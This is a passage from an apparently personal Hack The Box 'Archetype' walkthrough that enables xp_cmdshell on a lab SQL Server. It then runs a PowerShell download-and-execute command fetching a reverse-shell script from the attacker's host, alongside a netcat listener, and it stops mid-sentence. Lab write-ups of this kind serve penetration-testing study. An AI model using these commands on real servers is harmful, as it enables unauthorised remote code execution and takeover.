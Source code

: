 No results printed here either. I found [this write-up](https://secinject.wordpress.com/2020/10/20/hack-the-box-archetype-writeup/) which led me to the [Microssoft docs article](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver15) for this.

> To allow advanced options to be changed.  
>   `EXECUTE sp_configure 'show advanced options', 1;`
>   `GO`
> To update the currently configured value for advanced options.  
>   `RECONFIGURE;`
>   `GO`
> To enable the feature.  
>   `EXECUTE sp_configure 'xp_cmdshell', 1;`
>   `GO`
> To update the currently configured value for this feature.  
>   `RECONFIGURE;`
>   `GO`

There was no output from the SQL server when I did this. As an experiment, I tried to see if I could serve up a payload using the connection.

I used a [Powershell payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell) I acquired from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings). I started a server using `python3 -m http.server 80`.

Because we are running the HTTP server, we have to `UFW` to allow us to run a netcat listener on our selected port (I chose 4444). 
* `ufw allow from 10.10.10.27 proto tcp to any port 80,4444`

Then set a listener with `netcat -lvnp 4444`

Since I am not anywhere near a pro with Powershell (because I detest Windows, if I'm honest), I copied and pasted this command in the SQL terminal and hoped for the best.
* `xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.15.158/shell.ps1\");"`

It was at this point I used the `lcd` command in the terminal and found I'd been disconnected from the database. I retried the `xp_cmdshell` setup. This ended up being a saving grace, as I was able to do the following:

```Bash
SQL> EXECUTE sp_configure 'show advanced options', 1;
[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure;
SQL> EXEC sp_configure 'xp_cmdshell',1;
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure;
SQL> xp_cmdshell "whoami"
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

NULL
```
Now that we can use the `xp_cmdshell`, we can (with certainty) do the following:
